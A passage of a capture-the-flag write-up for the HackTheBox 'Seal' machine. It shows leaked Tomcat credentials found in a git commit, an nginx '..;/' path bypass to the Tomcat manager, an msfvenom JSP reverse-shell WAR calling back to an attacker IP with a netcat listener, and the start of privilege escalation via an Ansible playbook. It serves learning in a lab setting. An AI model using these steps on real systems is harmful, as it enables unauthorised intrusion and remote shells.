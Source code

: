 From here, we can see the template for mutual TLS authentication: [https://smallstep.com/hello-mtls/doc/server/nginx](https://smallstep.com/hello-mtls/doc/server/nginx).

Found deleted creds via the next commit: [http://seal.htb:8080/root/seal\_market/commit/971f3aa3f0a0cc8aac12fd696d9631ca540f44c7](http://seal.htb:8080/root/seal\_market/commit/971f3aa3f0a0cc8aac12fd696d9631ca540f44c7). `<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>`. Also the password from tomcat works for luis user.

## Gaining access

In Tomcat, we can do nothing because of the Nginx config. Besides that, I found the solution with this question on Reddit: [https://www.reddit.com/r/HowToHack/comments/p9id2s/question\_about\_tomcat\_path\_traversal\_exploit/](https://www.reddit.com/r/HowToHack/comments/p9id2s/question\_about\_tomcat\_path\_traversal\_exploit/).

With something like \[`https://seal.htb/manager/status/](https://seal.htb/manager/status/)..;/html/` we can bypass nginx and go right to /manager/html. After that, we have an option to deploy our revshell as usual with msfvenom generation.

```bash
┌──(root💀kali)-[/tmp]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f war -o revshell.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes
Saved as: revshell.war
```

When you do a deployment, don't forget to intercept the request with a burp and modify your URL or you will get 403 again. After deployment, go to /revshell and catch reverse shell:

```bash
┌──(root💀kali)-[~]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.250] 47402
whoami
tomcat
python3 -c 'import pty;pty.spawn("/bin/bash")' 
tomcat@seal:/var/lib/tomcat9$
```

## Privilege escalation

As user tomcat, I found this file:

```bash
tomcat@seal:/opt/backups/playbook$ cat run.yml
cat run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
tomcat@seal:/opt/backups/playbook$
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'